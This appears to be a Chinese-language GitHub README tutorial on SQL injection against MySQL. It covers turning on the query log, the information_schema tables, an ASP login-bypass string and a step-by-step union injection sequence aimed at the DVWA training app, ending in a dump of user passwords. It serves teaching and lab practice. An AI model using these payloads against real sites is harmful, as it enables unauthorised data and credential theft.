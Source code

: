 # python-network-programming
### SQL注入
#### 开启mysql日志功能
```text
mysql> show variables like 'general_log%'
    -> ;
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | OFF                                         |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)

mysql> set global general_log = 'ON';
Query OK, 0 rows affected (0.02 sec)

mysql> show variables like 'general_log%';
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | ON                                          |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)
```
#### 查看mysql日志
windows下使用baretail进行查看 [baretail下载地址](http://www.baremetalsoft.com/baretail/index.php)
#### sql注入原理
可以通过网站存在的查询语句进行构造，为此开发者对其伤透了脑筋，漏洞不光是查询，可能还存在与API、隐藏链接、http头数据、写入数据等。需要对数据包的结构和传递函数比较了解，建议学习的时候把数据库的日志打开，就可以查看到传递到数据库的语句是什么样子的了。 需要记住的information_schema数据库的SCHEMATA、TABLES、COLUMNS。 SCHEMATA表中存放所有数据库的名，字段名为SCHEMA_NAME。 关键函数database() 当前数据库名、version() 当前mysql版本、user()当前mysql用户.
#### 漏洞危害
高危漏洞,可以获取敏感信息，修改信息，脱裤，上传 webshell,执行命令。
#### mysql
默认库information_schema和其中的表SCHEMATA、TABLES和COLUMNS SCHEMATA 存储的是用户创建所有数据库的库名记录数据库库名的字段为SCHEMA_NAME  
select schema_name from information_schema.schemata 查询全部数据库  
select table_schema,table_name from information_schema.tables 查询全部数据库和表的对应  
select table_name,column_name from information_schema.columns; 查询全表对应的字段
#### asp站点万能密码
'or'='or'
#### union注入
1、首先判断是否有注入点?id=1' and 1=1#和?id=1' and 1=2，测试两个返回是否相同，如不同则含有注入漏洞    
2、判断字段数量 1' order by 1#，当返回错误，前一个数值即为最大字段量。  
3、得到字段个数后，进行union注入,id=1' union select 1,2# 如果都显示，说明两个字段都可以进行替换  
4、判断当前所使用的数据库1' union select version(),database()#  
5、查找需要的表 ?id=1' union select table_schema,table_name from information_schema.tables#，把所有数据库的库和表的对应显示出来。  
6、查找表对应的字段?id=1' union select table_name,column_name from information_schema.columns#  
7、查最终数据 ?id=1' union select user,password from dvwa.users#  
8、判断数据库版本1' and substring(@@version,1,1)=4# 如果返回正常结果，说明数据库版本是4.  

***
不定期分享一些python开发,逆向破解、渗透测试相关文章,欢迎大家关注.  
![微信公众号](../gongzhonghao.jpg)
***
BUG:dazhuang_python@sina.com